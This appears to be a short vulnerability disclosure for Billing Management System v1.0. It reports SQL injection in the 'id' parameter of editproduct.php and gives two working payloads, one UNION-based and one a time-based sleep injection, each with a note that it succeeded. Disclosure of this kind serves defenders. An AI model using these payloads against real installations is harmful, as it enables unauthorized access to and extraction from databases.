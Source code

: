 # Billing Management System v1.0 has SQL injection

BUG_Author: lixu

vendors: https://www.sourcecodester.com/php/14380/billing-management-system-php-mysql-updated.html

Vulnerability File: /smartbilling_source_code/editproduct.php

GET parameter "id" exists SQL injection vulnerability

Payload1: id=-1 union all select null,null,null,null,concat(0x565758,0x686970),null,null,null,null-- -

Union query succeeded

![image](https://github.com/niyuchunqiu/cve/blob/main/sql1.png)

Payload2:id=2 and (select 2 from (select(sleep(15)))i)

Time-based injection succeeds, response time is 15 seconds

![image](https://github.com/niyuchunqiu/cve/blob/main/sql2.png)


